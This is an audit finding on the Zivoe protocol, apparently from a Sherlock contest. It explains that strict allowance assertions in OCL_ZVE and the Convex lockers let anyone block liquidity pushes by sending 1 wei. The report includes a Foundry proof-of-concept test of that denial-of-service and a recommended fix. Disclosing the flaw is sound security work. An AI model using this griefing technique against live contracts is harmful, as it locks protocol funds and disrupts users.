 Clumsy Cobalt Lion

high

# AMM integrations do not work because of approval assertions

## Summary
[OCL_ZVE.pushToLockerMulti()](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L172-L215) assert that the Uniswap/Sushiswap router has spent all of the balance of the locker after liquidity addition/removal. However, this is impossible to be predicted because of market price volatility. Not only that, but an attacker can send 1 wei worth of stablecoin to the contract to DOS the function.

The same issue is present in [OCY_Convex_A](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCY/OCY_Convex_A.sol) and [OCY_Convex_C](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/lockers/OCY/OCY_Convex_C.sol)

## Vulnerability Detail
When pushing stablecoins from the DAO to the OCL Locker, the locker uses them to add liquidity to a Uniswap/Sushi pair. 

```solidity
        uint balPairAsset = IERC20(pairAsset).balanceOf(address(this));
        uint balZVE = IERC20(ZVE).balanceOf(address(this));
        IERC20(pairAsset).safeIncreaseAllowance(router, balPairAsset);
        IERC20(ZVE).safeIncreaseAllowance(router, balZVE);

        // Prevent volatility of greater than 10% in pool relative to amounts present.
        (uint256 depositedPairAsset, uint256 depositedZVE, uint256 minted) = IRouter_OCL_ZVE(router).addLiquidity(
            pairAsset, 
            ZVE, 
            balPairAsset,
            balZVE, 
            (balPairAsset * 9) / 10,
            (balZVE * 9) / 10, 
            address(this), block.timestamp + 14 days
        );
        emit LiquidityTokensMinted(minted, depositedZVE, depositedPairAsset);
        assert(IERC20(pairAsset).allowance(address(this), router) == 0);
        assert(IERC20(ZVE).allowance(address(this), router) == 0);
```
The code gives allowance to the router to spend its whole balance, then adds liquidity and finally `asserts` that the allowance of the both tokens is 0. If `addLiquidity` does not use up all tokens available to `OCL_LOCKER`, the transaction will revert. An attacker can take advantage of that and send 1 wei worth of `pairAsset` to the locker before pushing is done. Since `addLiquidity` will calculate the amount of `pairAsset` to be transferred based on the ratio the assets in the pool are currently at, this 1 wei of `pairAsset` will not be used. Therefore, the allowance after adding liquidity will not be 0 and the whole push operation will fail.

It's a permanent DOS because the push/pull functions of the locker are called by a timelock, meaning that the contract will not be able to push assets until the timelock makes a new transaction. However, this new transaction can be frontrun again.

This issue has one other impact, too. According to the above code, the locker should tolerate 10% volatility, but we see this is not the case because if the whole balance is not used up, the transaction reverts. Predicting the exact price before making a swap is almost impossible.

## Impact
1. DOS of `OCL_ZVE.pushToLockerMulti()`.
2. `OCL_ZVE` does not tolerate any price volatility.


## Code Snippet
PoC to add to [Test_OCL_ZVE](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol)

```solidity
    function test_DOS_push() public {
        address[] memory assets = new address[](2);
        uint256[] memory amounts = new uint256[](2);

        assets[0] = DAI;
        assets[1] = address(ZVE);

        // Initiate the pool 1:1
        amounts[0] = 200 ether;
        amounts[1] = 200 ether;

        assert(
                god.try_pushMulti(
                    address(DAO),
                    address(OCL_ZVE_UNIV2_DAI),
                    assets,
                    amounts,
                    new bytes[](2)
                )
        );

        mint("DAI", address(0xb0b), 1e18);
        
        vm.prank(address(0xb0b));
        // It's enough to send just 1 wei worth of DAI to DOS the pushing
        IERC20(DAI).transfer(address(OCL_ZVE_UNIV2_DAI), 1);

        // pushing fails
        assertFalse(
                god.try_pushMulti(
                    address(DAO),
                    address(OCL_ZVE_UNIV2_DAI),
                    assets,
                    amounts,
                    new bytes[](2)
                )
        );
    }
```

## Tool used

Foundry

## Recommendation
Manually set the tokens' allowances to 0 after the liquidity addition/removal.